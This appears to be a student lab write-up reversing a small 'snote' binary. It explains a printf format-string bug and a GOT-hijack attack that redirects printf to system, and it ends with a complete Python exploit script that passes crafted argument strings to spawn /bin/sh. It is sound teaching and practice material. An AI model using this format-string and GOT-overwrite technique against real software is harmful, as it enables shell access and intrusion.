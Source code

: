 ﻿# Christa Write Up
### by Tilden Jackson (thjackso)
## Content
* [Binary Reversing](#reversing)
* [Vulnerability Details](#exploit-details)
* [Working Exploit](#working-exploit)

## Reversing
This code `./snote` has 2 main functions to consider: `main, note`. We start by running the code to take a look at what it does:
\
![This function takes two arguments in the command line: subject and note.](https://i.postimg.cc/9fMFjzcn/normal.png)
Note that opposed to in Alice's and Christa's versions of `./snote` we can put in more than 2 command line arguments and execution will continue. (This will be important later.)

Looking deeper at the binary we can get a deeper look at how it works:
![Main function disassembled](https://i.postimg.cc/MptK41JB/main.png)
The main function stores `argc` in `-0x4(rbp)` and `argv[]` in `-0x10(rbp)` and then sets up a call to `<note>` by printing out the number of command line arguments and calling `system("/bin/date")`. This system call is something that we will definitely try to take advantage of when crafting an exploit.

Looking at `<note>` we see:
![Disassembled Note](https://i.postimg.cc/Lsb44RX6/note.png)
The function `<note>` takes 2 arguments as shown in the pseudocode bellow. It uses `memcpy` to store `subject@argv[1]` into the buffer but will continue to write 0x72 bytes into it no matter the length of subject. It then moves a string constant into the buffer after the first string that it has stored in the buffer (after subject) and then proceeds to print out the information using a series of `puts` and `printf` calls.

---
A pseudocode of this binary would look like: 
```
int main(int argc, const char* argv[]){
	if (argc <= 2){
		puts(...);
		return -1;
	}

	printf("Hacking Diary: Day %d\n", argc-1);

	system("/bin/date");

	note(argv[1],argv[2]);

	return 0;
}

int note(const char* subject, const char* note){
	char* subject = subject; //@-0x88(rbp)
	char* note = note; //@-0x90(rbp)

	char* buf[0x82]; //@-0x80(rbp)
	memcpy(buf, subject, 0x72);

	int len = strlen(buf);

	//essentially: strcpy(buf+len, " by Chairman\n");
	buf+len += " by Chairman\n";
	
	puts("[-] Subject: ");
	printf(buf); //Here we can overwrite linker addr of printf to system
	puts("[-] Note: ");
	printf(note); //Now call /bin/bash
	puts("");
	return "";
}
```
\
**Vulnerabilities**
Our `memcpy` will only copy `0x72 bytes` and our buffer is `0x80 bytes` on the stack so we cannot overwrite the return address to execute shellcode or any ret2pop exploits.

However, we are given full control of the `printf()` statements in the `<note>` function so we can easily use a format string exploit to leak information or take control of the machine. Additionally, we are told that GOT is not randomized (as it is difficult to do dynamic-linking while GOT is randomized). Since we have a call to `system()` in the main function, we can execute a GOT hijack attack with the first `printf` call to change `printf() -> system()` in the GOT table and thus we can call system on anything we want in the second `"printf"` call. 

There are no defenses to this that have been implemented other than ASLR which will not affect out GOT hijack attack.

## Exploit Details
In order to implement our GOT hijack attack, we need to know some important pieces of information so that we can string our attack together. For our attack, we will change the value stored in the GOT table of `printf` to be the value of `system`. To do this, we need to know the address of the GOT table for `printf` and the value that `system` stores in GOT table.

The GOT table addresses are easily obtainable from the the assembly as we can see with the constant jmp values:
![GOT table location values](https://i.postimg.cc/Kz0P81T3/assembly-got.png)

The address of the GOT table for `printf` is `0x404030` and for `system` is `0x404028`.
Now we can use gdb to look at the values that are normally stored in there:
![GOT table addresses](https://i.postimg.cc/QtzFz15m/values-got.png)

We need to change the value in the GOT table for `printf` to `0x401050` because that is the value for `system` in the GOT table. In order to do this we will leverage the `%n` format qualifier to store a certain value. More specifically, we will need to use `%n and %hhn` to overwrite the value at `0x404030` to `0x401050`. Since the `%n` format qualifier puts the number of bytes printed into the location specified with the qualifier, we will first need to but the `0x10` and then the `0x40` and then the `0x50`. However, these will overwrite with zeros everytime if we just use `%n` so instead we will use `%hhn` to only write to the lowest byte at that address and thus not overwrite any other value.

Our formatted string will look something like this:
`"%16u%xx$hhn%48u%yy$n%16u%zz$hhn"` The `%_u` qualifier will print out spaces in the number specified to it. Thus in our format string, we print `0x10 bytes` with the `%16u` and then store `0x10` with the `%hhn` qualifier at the value pointed at to by x. We print `0x30 bytes`  more with `%48u` which brings us up to `0x40` which we then store into the location pointed at by y using `%n` which will overwrite other values in the word after that with zeros. Then we print out `0x10 bytes` more bringing us up to `0x50` which we then store into the location pointed at by z. Thus, if we have x, y, and z correct, we will overwrite the value stored in the GOT table for `printf` to `0x401050` which will change our next call to a system call where we can leverage the value of note as `/bin/sh` to spawn a shell.

The values for the format strings will be as follows:
x must point to `0x404031` since we want to write the middle byte as `0x10`
y must point to `0x404032` since we want to write the farther byte as `0x40` and 
z must point to `0x404030` since the lowest byte we want as `0x50`

We can actually store these values onto our stack in the buffer since `memcpy` does not stop when we give it null bytes and then reference x, y, and z properly to refer to those strings with those locations.

To do this, we must look at our stack and how we will set it up.
 
Normally our stack looks like this:
```
| addr rel. rbp in func | val|
------------------------------
| +0x08 | return address     | 
------------------------------
| +0x00 | old(rbp)           |
------------------------------ (start <note> stack)
|       |                    |
| -0x80 | buf[0x80]          |
|       |                    |
------------------------------
| -0x88 | const char* subject| //argv[1]
------------------------------
| -0x90 | const char* note   | //argv[2]
------------------------------ (end <note> stack)
```

While the stack does not change much in shape or function, it is still quite important for our exploit to know where things are on the stack so that we can reference them with our printf attack.

Here is what our stack looks like with the exploit:
```
| addr rel. rbp in func | val      |
------------------------------------
| +0x08 | return address           | 
------------------------------------
| +0x00 | old(rbp)                 |
------------------------------------ (start <note> stack)
|     |       |  ....              | 
| s11 | -0x40 | 0x404032           |
| s10 | -0x48 | 0x404031           |
| s9  | -0x50 | 0x404030           |
| s8  | -0x58 | "sh\0aaaa\0"       |
| s7  | -0x60 | "n\n\0/bin/"       | start argv[2]
| s6  | -0x68 | " Chairma"         | 
| s5  | -0x70 | "6u%zz by"         |
| s4  | -0x78 | "48u%yy%1"         |
| s3  | -0x80 | "%16u%xx%"         | argv[1] + addon
------------------------------------ (start buf[0x80] @ -0x80(rbp) )
| s2  | -0x88 | const char* subject| //argv[1]
------------------------------------
| s1  | -0x90 | const char* note   | //argv[2]
------------------------------------ (end <note> stack)
```
The values we want are in s9 - s11 which are the 8byte increments of the stack. Since we take 5 arguments in registers in printf, we have out values of x, y, and z:
xx - 15
yy - 16
zz - 14
## Working Exploit
Our final string is as follows where we use `b''` to put only null bytes in the buffer to properly write our reference addresses:

```
[b"%16u%15$hhn%48u%16$n%16u%14$hhn", b"/bin/sh", b"aaaaaaa",
b"\x30\x40\x40", b'', b'', b'', b'',
b"\x31\x40\x40", b'', b'', b'', b'',
b'\x32\x40\x40', b'', b'', b'', b'']
```

In a python script we have:
```
#!/usr/bin/env python3
# file: exploit.py

import subprocess

filename = b"./snote"

exploit = [b"%16u%15$hhn%48u%16$n%16u%14$hhn", b"/bin/sh", b"t1ld3n!", 
b"\x30\x40\x40", b'', b'', b'', b'',
b"\x31\x40\x40", b'', b'', b'', b'',
b'\x32\x40\x40', b'', b'', b'', b'']

subprocess.run([filename] + exploit)
```
>I replaced the paddding (b"a"*7 to b"t1ld3n!" because its the same and has my name)

We run these as our command line arguments to `./snote` to verify and we get:
![The exploit succeeds!](https://i.postimg.cc/Pq9gCqkJ/exploit.png)

